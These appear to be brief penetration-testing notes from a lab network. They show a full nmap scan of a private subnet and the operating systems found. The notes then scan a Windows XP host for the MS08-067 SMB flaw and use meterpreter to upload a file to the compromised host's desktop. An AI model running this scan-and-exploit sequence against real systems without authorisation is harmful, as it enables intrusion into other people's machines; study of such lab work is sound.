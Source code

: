 1. `nmap -sV -O -p- -v 10.10.111.0/24
1.1. 10.10.111.1 is Linux 3.2 -4.0
     10.10.111.2 is Linux 3.2
     10.10.111.101 is Ubuntu
     10.10.111.102 is Windows 2000 or Windows XP

nmap -v -p445 --script --script smb-vuln-ms08-067.nse 10.10.111.102


meterpreter> upload file.txt C:\\Documents\ and\ Settings\\All\ Users\\Desktop
